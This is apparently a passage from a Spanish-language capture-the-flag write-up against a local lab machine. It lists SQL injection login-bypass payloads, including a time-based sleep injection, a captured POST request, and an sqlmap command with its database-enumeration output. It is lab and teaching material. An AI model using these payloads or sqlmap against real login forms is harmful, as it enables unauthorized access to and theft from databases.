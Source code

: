 **SQLQueryes** probadas:
```bash
'
admin'
admin' or 1=1-- -
admin' or '1'='1-- -
```

Con esta logramos evadir el panel de inicio de sesion:
```bash
admin' or sleep(5)-- -
```

Una ves ganado acceso nos redirige a esta pagina:
```bash
http://172.17.0.2/content_pages_hidden/welcome.php
```

---
## Explotacion de Vulnerabilidades
### Vector de Ataque
Ahora sabiendo que el login es vulnerable a **inyeccion SQL** usaremos la herramienta **SQLMap** para automatizar la inyeccion
Primero Caputaramos la peticion con **burpsuite** del panel de inicio de sesion:
```bash
POST /content_pages_hidden/db.php HTTP/1.1
Host: 172.17.0.2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: es-MX,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: http://172.17.0.2
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://172.17.0.2/login.php
Upgrade-Insecure-Requests: 1
Priority: u=0, i

username=admin&password=admin
```

### Ejecucion del Ataque
Una ves con la peticion realizaremos desacrubrimiento de las bases de datos:
```bash
sqlmap -r request.txt --dbs --batch
```

Tenemos las bases de datos:
```bash
available databases [5]:
[*] information_schema
[*] injectors_db
[*] mysql
[*] performance_schema
[*] sys
```
